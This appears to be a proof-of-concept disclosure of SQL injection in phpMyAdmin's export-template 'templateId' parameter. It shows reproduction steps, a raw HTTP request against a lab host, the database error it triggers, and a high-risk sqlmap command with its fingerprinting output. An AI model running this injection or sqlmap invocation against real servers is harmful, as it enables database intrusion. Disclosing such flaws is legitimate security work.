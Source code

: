 
### SQL Injection

http://192.168.159.128/phpmyadmin/server_export.php

1. Visit Export > New Template > test > Create
2. Navigate to "Existing Templates"
3. Select template "test" and click "Update"
4. Trap HTTP POST request
5. Place single quote to "templateId" parameter

```
// HTTP POST request

POST /phpmyadmin/tbl_export.php HTTP/1.1
Host: 192.168.159.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
[...]

ajax_request=true&server=1&db=&table=&exportType=server&templateAction=load&templateId=1'&_nocache=170904357625092438&token=%5D%7BwM4%22xq%26%3C%7Fioycy
```

```
// HTTP response

HTTP/1.1 200 OK
Date: Tue, 27 Feb 2024 16:44:09 GMT
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev Perl/v5.16.3
X-Powered-By: PHP/5.6.40
[...]

{"success":false,"error":"#1064 - You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\\' AND `username` = 'root'' at line 1"}
```

```
sqlmap -r request.txt --dbms=mysql --threads 10 --level 5 --risk 3 --fingerprint
```

```
[...]
[16:55:00] [INFO] confirming MySQL
[16:55:01] [INFO] the back-end DBMS is MySQL
[16:55:01] [INFO] actively fingerprinting MySQL
[16:55:02] [INFO] executing MySQL comment injection fingerprint
web application technology: PHP 5.6.40, Apache 2.4.37
back-end DBMS: active fingerprint: MySQL >= 5.5
               comment injection fingerprint: MySQL 5.6.52
               fork fingerprint: MariaDB
[...]
```
